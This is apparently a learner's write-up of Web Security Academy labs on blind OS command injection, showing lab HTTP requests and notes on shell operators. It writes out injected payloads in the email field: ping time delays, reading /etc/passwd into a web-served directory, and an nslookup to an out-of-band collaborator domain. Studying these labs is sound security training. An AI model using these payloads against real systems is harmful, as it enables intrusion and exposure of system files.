


# Blind OS command injection vulnerabilities

Same like blind sql injection, blind OS command injection arises when an application is vulnerable to  OS command injection without returning the relevant result from the payload.

But it's still exploitable and below is the following techniques to detect a blind OS command injection vulnerabilities:

## Lab #2: Blind OS command injection with time delays

Sample request
```
POST /feedback/submit HTTP/1.1
Host: ac031f731f33252480f62106001a00b5.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Origin: https://ac031f731f33252480f62106001a00b5.web-security-academy.net
Connection: close
Referer: https://ac031f731f33252480f62106001a00b5.web-security-academy.net/feedback
Cookie: session=ev24V9G6Ba98S5KtiQLZeenNgdSlrNVO

csrf=BHYqUKMi41wmqBX8A15sLq4v7vOHfU53&name=fahmi&email=fahmi%40mail.com&subject=This+website+is+vulnerable+by+design&message=so
```

Sample auto mailing:
```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
``` 

Detect using time-delay
```
||ping+-c10+127.0.0.1||
;ping+-c10+127.0.0.1;
```

Modified body parameter
```
csrf=BHYqUKMi41wmqBX8A15sLq4v7vOHfU53&name=fahmi&email=fahmi%40mail.com;ping+-c10+127.0.0.1;&subject=This+website+is+vulnerable+by+design&message=so
```

Injection on auto mailing:
```
mail -s "This website is vulnerable by design" -aFrom:NotValidMail||ping -c 10 127.0.0.1|| feedback@vulnerable-website.com
``` 

Note:  
`A ; B`, run A then run B   
`A || B`, if A failed, run B  
`A && B`, run B if a success  
`A & B`, run A in background, run B in foreground

## Lab #3: Blind OS command injection with output redirection

Sample request:
```
POST /feedback/submit HTTP/1.1
Host: ac431f7a1e758c6c80c71c6a00a70078.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 158
Origin: https://ac431f7a1e758c6c80c71c6a00a70078.web-security-academy.net
Connection: close
Referer: https://ac431f7a1e758c6c80c71c6a00a70078.web-security-academy.net/feedback
Cookie: session=58KoRxpoSbGR6XrHJBq7E3In48CGQW6t

csrf=b70JaGDFLtHCutnEPjIAHqsi51VinWlF&name=fahmi&email=fahmi%40mail.com&subject=website+is+vulnerable&message=test
```

Modified body parameter:
```
csrf=b70JaGDFLtHCutnEPjIAHqsi51VinWlF&name=fahmi&email=fahmi%40mail.com||cat+/etc/passwd+>+/var/www/images/passwd||&subject=website+is+vulnerable&message=test
```

Possible location:
```
https://blabla/image?filename=15.jpg
``` 
Then it would be
```
https://blabla/image?filename=passwd
```
But because the content-type is set to image/jpeg, the browser will try to render `passwd` to an image, therefore we'll see an error in the browser.

We need BurpSuite to intercept the request as well as its response.



## Lab #4: Blind OS command injection with out-of-band interaction

Note:
If the system is asynchronous, it has no effect to the response timing. However, beside file write redirect, we could also detect the blind os command injection by redirecting the output to outer domain (out-of-band)

> An out-of-band means to reflect the response of payload to public server/system that we control  
> In short, we making it to interact with outer system that we monitored.


Steps:

Since labs only allows burp domain, and burp collaborator only available in the Pro version, I couldn't monitor the output.

Payload
```
email=||nslookup+burpcollaborator.net||
```

